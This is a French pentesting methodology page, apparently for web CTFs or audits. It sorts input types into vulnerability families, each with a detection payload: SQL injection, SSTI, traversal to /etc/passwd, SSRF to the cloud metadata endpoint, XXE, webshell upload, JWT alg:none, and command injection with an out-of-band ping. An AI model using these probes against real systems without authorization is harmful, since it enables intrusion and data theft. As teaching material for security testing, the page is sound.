

# Méthodologie de triage des inputs

## Flux de reconnaissance

> **Règle d'or** : ne jamais tester au hasard. Chaque input dit ce qu'il fait, et donc ce qu'il est susceptible de faire mal.

---

## Grille de triage par type d'input

### 🔢 Paramètre numérique
*`id=1`, `user=5`, `page=2`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | IDOR | `id=2` / `id=0` / `id=100` | Remplacer l'ID par celui d'un autre utilisateur ou par 0 |
| 🔴 Haute | SQLi | `1' --` / `1 OR 1=1-- -` | Erreur DB ou comportement différent = potentiellement vulnérable |

!!! tip "Heuristique"
    Si la valeur donne accès à une ressource → **IDOR d'abord**, puis SQLi.

---

### 🔎 Recherche / filtre
*`search=`, `q=`, `filter=`, `name=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | SQLi | `' OR '1'='1` / `' --` | Les champs de recherche passent souvent directement dans une requête DB |
| 🟡 Moyenne | XSS réfléchi | `` / `` | Si la valeur saisie est reflétée dans la page sans encodage |

!!! tip "Heuristique"
    Observer si la valeur apparaît dans la page ou déclenche une erreur DB.

---

### 📝 Champ template / message
*`template=`, `body=`, `subject=`, `msg=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | SSTI | `{{7*7}}` / `${7*7}` / `#{7*7}` | Si la sortie affiche 49 → moteur de template identifié, tester RCE |
| 🟡 Moyenne | XSS stocké | `` | Si le contenu est rendu pour d'autres utilisateurs |

!!! tip "Heuristique"
    Champ dont le contenu est rendu côté serveur → **SSTI avant XSS**.

---

### 📎 Upload de fichier
*`file=`, `upload=`, `avatar=`, `import=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | RCE / WebShell | `shell.php` / `file.php5` / `file.phtml` | Contournement du filtre d'extension, puis accéder au fichier |
| 🟡 Moyenne | LFI via nom de fichier | `../../../etc/passwd` | Si le nom est utilisé dans un chemin côté serveur |
| 🟡 Moyenne | XXE | `<?xml ...?>` + entité externe | Si l'app accepte XML/SVG → tenter injection DOCTYPE |

!!! tip "Heuristique"
    Vérifier : extension acceptée, chemin de stockage, si le fichier est exécuté.

---

### 🌐 URL / chemin dans paramètre
*`url=`, `path=`, `file=`, `redirect=`, `page=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | SSRF | `http://127.0.0.1/` / `http://169.254.169.254/` | L'app fetch l'URL → accès aux services internes |
| 🔴 Haute | LFI | `../../etc/passwd` / `....//....//etc/passwd` | L'app lit un fichier local → path traversal |

!!! tip "Heuristique"
    L'app fait quelque chose avec cette valeur côté serveur → **SSRF ou LFI** selon contexte.

---

### 🍪 Cookie / session token
*`session=`, `auth=`, `token=`, `remember=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | JWT attack | `alg: none` / bruter le secret avec hashcat | Format `eyJxxx.eyJxxx.xxx` → JWT. Tester alg:none ou crack |
| 🔴 Haute | Pickle / désérialisation | Base64 → modifier l'objet Python sérialisé | Cookie base64 non-JWT avec contenu binaire → tester pickle |

!!! tip "Heuristique"
    Décoder en base64 : **JWT** (3 parties `.`) vs **pickle** (binaire) vs custom.

---

### 🔐 Formulaire d'action sensible
*Profil, mot de passe, email, espace admin*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | CSRF | Form HTML externe pointant vers l'action | Pas de token CSRF dans la requête → vulnérable |
| 🟡 Moyenne | IDOR | Modifier `user_id` dans le corps du formulaire | Si un ID est envoyé explicitement dans la requête |

!!! tip "Heuristique"
    Inspecter dans Burp : y a-t-il un token CSRF ? Sinon → construire le PoC.

---

### 📄 Corps de requête XML
*`Content-Type: text/xml` ou `application/xml`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | XXE | `<!DOCTYPE x [<!ENTITY e SYSTEM "file:///etc/passwd">]>` | Injecter une entité externe dans le DOCTYPE, référencer `&e;` |

!!! tip "Heuristique"
    Dès que le Content-Type est XML → **tester XXE en première priorité**.

---

### 💻 Champ système / OS
*`host=`, `ping=`, `cmd=`, `ip=`, `domain=`*

| Priorité | Vulnérabilité | Payload de détection | Note |
|----------|---------------|----------------------|------|
| 🔴 Haute | Command injection | `; id` / `&& whoami` / `\| ls` | Séparateurs valides : `;` `&&` `\|` — jamais de virgule |
| 🟡 Moyenne | Blind CMDi | `; sleep 5` / `; ping -c5 BURP_COLLABORATOR` | Pas de sortie visible → délai temporel ou exfil OOB |

!!! tip "Heuristique"
    Tout champ interagissant avec l'OS → **tester command injection immédiatement**.

---

## Conseils pratiques

!!! info "Burp d'abord, les mains ensuite"
    Lance Burp en mode passif dès que tu ouvres l'app, navigue sur toutes les pages, puis consulte l'historique avant de toucher quoi que ce soit. Tu auras une carte complète des requêtes.

!!! info "Note les inputs AVANT de les tester"
    Une liste suffit : `endpoint | paramètre | type | famille présumée`. Ça évite les allers-retours et permet de cocher au fur et à mesure.

!!! info "Un seul payload de détection par famille"
    L'objectif à ce stade c'est de confirmer ou infirmer, pas d'exploiter. Si la réponse est intéressante, on approfondit. Sinon, on passe.

!!! warning "Le comportement différentiel est ton signal"
    Une erreur 500, un délai, une valeur reflétée inattendue, un redirect qui change — tout ça compte bien plus que l'absence de sortie visible. **Note tout**, même ce qui semble anodin.